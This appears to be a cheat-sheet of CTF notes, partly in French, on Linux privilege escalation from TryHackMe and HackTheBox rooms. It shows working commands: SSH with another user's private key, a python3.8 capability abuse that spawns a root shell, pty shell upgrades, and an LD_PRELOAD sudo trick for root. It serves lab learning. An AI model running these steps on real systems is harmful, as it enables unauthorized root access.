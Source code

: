 * N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    ```bash=
    ssh -i /home/<user>/.ssh/id_rsa kay@<ip>
    ```
    Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    ```bash=
    nathan@cap:~$ getcap -r / 2>/dev/null
    ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    ans : /usr/bin/ping = cap_net_raw+ep
    ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    ans : /usr/bin/mtr-packet = cap_net_raw+ep
    ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ans : root@cap:~#
    ```
    C'est bon, on est root sur la machine.

* N°4 : TryHackMe -> [Advent of Cyber 2020](https://tryhackme.com/room/adventofcyber2)
    ```bash=
    python -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

### sudo -l

Check which environment variables are inherited (look for the env_keep options):

    ```bash=
    sudo -l
    ```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

    ```bash=
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
    ```

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

    ```bash=
    sudo LD_PRELOAD=/tmp/preload.so program-name-here
    ```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.
